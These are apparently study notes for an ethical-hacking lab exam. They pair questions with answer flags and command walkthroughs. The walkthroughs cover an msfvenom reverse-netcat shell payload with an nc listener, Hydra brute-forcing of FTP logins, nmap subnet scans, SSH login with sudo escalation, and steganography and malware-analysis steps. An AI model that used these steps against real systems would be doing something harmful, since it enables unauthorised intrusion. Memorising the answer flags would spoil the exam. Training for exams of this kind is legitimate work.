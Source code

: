 9. telnet 192.168.0.1
10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine
after login paste now find . -name flag.txt
11. start listen nc -lnvp 444
12. password type
13. ls
14. find . -name NetworkPass.txt
15. cat /path/NetworkPass.txt
  
7.A forensic investigator has confiscated a computer from a suspect in a data leakage case. He found an image file, MyTrip.jpg, stored in the Documents folder of the "EH Workstation – 2" machine. He suspects that some confidential data is hidden in the image file. Analyse the image file and extract the sensitive data hidden in the file. Enter the sensitive data, an eight-character alpha-numeric string, as the answer. Use "Imagination" if you are stuck.
Answer: N7#SePFn
1. openstego tool in 2019 or use stegonline for online
2. upload the file type password
3. type the flag
8.Exploit weak credentials used for FTP service on a Windows machine in the 192.168.0.0/24 subnet. Obtain the file, Credential.txt, hosted on the FTP root, and enter its content as the answer.
Answer: hSP#6Csa
1. Nmap -p 21 192.168.0.0/24
2. Sudo nmap -sS -A -T4 ip/24
3. hydra -L user.txt -P pass.txt ftp://192.168.0.1
4. ftp 192.168.0.1 and type user name and password login
5. Ls and search for the credential.txt file using find . -name credential.txt.
9.You used shoulder surfing to identify the username and password of a user on the Ubuntu machine in the 192.168.0.0/24 network, that is, smith and L1nux123. Access the target machine, perform vertical privilege escalation to that of a root user, and enter the content of the imroot.txt file as the answer.
Answer: CS@@g5tj
1. nmap -sV -p 22 192.168.0.0/24 and now see open port ip address and note down
2. ssh smith@192.168.0.1 and for password given L1nux123
3. sudo -i
4. cd/
5. find . -name imroot.txt
6. cat givenpath/imroot.txt
10.During an assignment, an incident responder has retained a suspicious executable file "die-another-day". Your task as a malware analyst is to find the executable's Entry point (Address). The file is in the C:\Users\Admin\Documents directory in the "EH Workstation – 2" machines.
Answer: 0041e768
1. Analyze ELF Executable File using Detect It Easy (DIE)
2. Open manuals go malware analysis folder, static malware analysis folder and packaging and officiation
folder then you can DIE folder.
3. Run the die.exe file in windows, upload the target file then click open now in scanned all now click on file
info there you can see the entry point address.
4. Find the Portable Executable (PE) Information of a Malware Executable File
5. Open manuals go malware analysis folder, static malware analysis folder and PE Extraction tools folder
    then you can install and launch it.
